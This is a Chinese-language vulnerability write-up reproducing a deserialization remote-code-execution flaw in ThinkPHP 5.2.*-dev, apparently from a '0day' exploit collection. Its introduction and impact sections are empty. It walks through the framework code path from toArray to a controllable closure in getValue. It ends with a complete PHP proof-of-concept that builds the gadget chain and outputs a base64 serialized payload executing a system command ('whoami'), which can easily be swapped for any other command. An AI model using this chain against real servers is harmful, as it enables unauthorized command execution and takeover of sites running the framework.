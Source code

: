 # Thinkphp 5.2.*-dev 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Thinkphp/13.html](http://book.iwonder.run/0day/Thinkphp/13.html)

## 一、漏洞简介

所有 Thinkphp 版本下载链接

[https://packagist.org/packages/topthink/framework](https://packagist.org/packages/topthink/framework)

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.2.*-dev v5.2 
```

### poc 演示截图

![image](img/95dcfb442f7dd3b856ac792881ffcb7c.png)

### 调用链

![image](img/fe256c7d16d904704c39acd84a3a3f59.png)

### 单步调试

可以看到前面的链跟 tp5.1.x 的一样，这里不在列举，直接进去 toArray 函数，可以看到$data 可控

```
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation);

foreach ($data as $key => $val) {
   if ($val instanceof Model || $val instanceof ModelCollection) {
     // 关联模型对象
     if (isset($this->visible[$key])) {
      $val->visible($this->visible[$key]);
     } elseif (isset($this->hidden[$key])) {
      $val->hidden($this->hidden[$key]);
     }
     // 关联模型对象
     $item[$key] = $val->toArray();
   } elseif (isset($this->visible[$key])) {
     $item[$key] = $this->getAttr($key);
   } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
     $item[$key] = $this->getAttr($key);
   }
}
。。。 
```

```
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
} 
```

```
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   } 
```

```
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict 默认为 true
} 
```

可以看到 getAttr 函数中的$value 可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);

```
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

    if (isset($this->withAttr[$fieldName])) {
       if ($relation) {
         $value = $this->getRelationValue($name);
       }

       $closure = $this->withAttr[$fieldName];
       $value   = $closure($value, $this->data); 
```

这里$fieldName、$this->withAttr，导致$closure 也可控，最终直接产生 RCE。如下图

![image](img/833bce058a2c3c8ca83bcf235533b4c6.png)

补充：

```
<?php

$a = array();
system('whoami',$a); 
```

![image](img/d2959c80f88e4cee0a43fdf0dfb92ba0.png)

![image](img/de9fac181889930729d8d3236a061ee6.png)

### poc v5.2.*-dev

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}
namespace{
    $Conver = new think\model\Pivot("whoami");
    $payload = new think\process\pipes\Windows($Conver);
    echo base64_encode(serialize($payload));
}
?> 
```

## 四、参考链接

> [https://www.t00ls.net/thread-54324-1-1.html](https://www.t00ls.net/thread-54324-1-1.html)

